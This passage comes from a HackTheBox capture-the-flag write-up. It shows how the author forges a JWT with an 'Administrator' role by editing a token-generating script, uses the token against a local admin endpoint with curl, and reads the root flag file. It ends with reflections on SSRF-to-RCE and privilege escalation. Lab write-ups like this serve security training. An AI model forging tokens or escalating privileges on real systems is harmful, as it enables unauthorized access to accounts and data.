### JWT Exploitation
A JWT-generating script was found. Modify it:
```
payload = {
    "sub": "HardHat_Admin",
    "role": "Administrator",
    "iat": int(time.time()),
    "exp": int(time.time()) + 600
}
```
Use the JWT to access admin functions:
```
curl -H "Authorization: Bearer <TOKEN>" http://127.0.0.1:5000/admin
```
## 🔐 Root Flag
After getting admin access:
```
cat /root/root.txt
```

## ✅ Conclusion
This box was rated MEDIUM on HackTheBox, but as always, "medium" doesn’t quite capture the challenge — it took me over five days to even break the initial SSRF_RCE.py script.
The key takeaways from this experience were the importance of persistence, the true power of SSRF leading to RCE, local privilege escalation through misconfigurations, and practical applications of JWTs in exploitation.
I hope you find this writeup insightful and enjoyable!





